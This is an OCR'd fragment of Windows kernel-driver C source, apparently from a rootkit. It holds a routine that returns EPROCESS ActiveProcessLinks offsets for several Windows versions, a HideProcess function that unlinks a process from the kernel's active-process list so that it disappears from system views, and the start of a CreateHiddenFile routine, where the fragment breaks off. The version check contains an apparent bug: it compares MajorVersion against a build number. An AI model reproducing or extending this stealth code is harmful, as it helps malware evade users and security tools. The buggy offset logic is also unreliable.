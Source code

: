 ```c
	return STATUS_SUCCESS;
}

ULONG GetActiveProcessLinkOffset() {
	ULONG MajorVersion = 0;
	ULONG MinorVersion = 0;
	ULONG BuildNumber = 0;
	NTSTATUS Status;

	Status = GetWindowsVersion(&MajorVersion, &MinorVersion, &BuildNumber);
	if (!NT_SUCCESS(Status)) {
		return 0;
	}

	if (10 == MajorVersion && 22000 >= MajorVersion) {
		return 0x448;
	}
	else if (10 == MajorVersion) {
		return 0x448;
	}
	else if (6 == MajorVersion && 3 == MinorVersion) {
		return 0x2e8;
	}
	else if (6 == MajorVersion && 1 == MinorVersion) {
		return 0x118;
	}

	return 0;
}

NTSTATUS HideProcess(HANDLE ProcessID) {
	PLIST_ENTRY ActiveProcessLink;
	PEPROCESS Process;
	ULONG Offset;
	NTSTATUS Status;

	Status = PsLookupProcessByProcessId(ProcessID, &Process);
	if (!NT_SUCCESS(Status)) {
		return Status;
	}

	Offset = GetActiveProcessLinkOffset();
	if (0 == Offset) {
		return STATUS_NOT_SUPPORTED;
	}
	ActiveProcessLink = (PLIST_ENTRY)((PUCHAR)Process + Offset);

	RemoveEntryList(ActiveProcessLink);

	return STATUS_SUCCESS;
}

NTSTATUS CreateHiddenFile() {
	HANDLE HandleDirectory = NULL;
	HANDLE HandleFile = NULL;
	OBJECT_ATTRIBUTES ObjAttr;
	IO_STATUS_BLOCK IoStatusBlock;
	NTSTATUS Status;

	InitializeObjectAttributes(&ObjAttr, &G_ExecutablePath, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);

```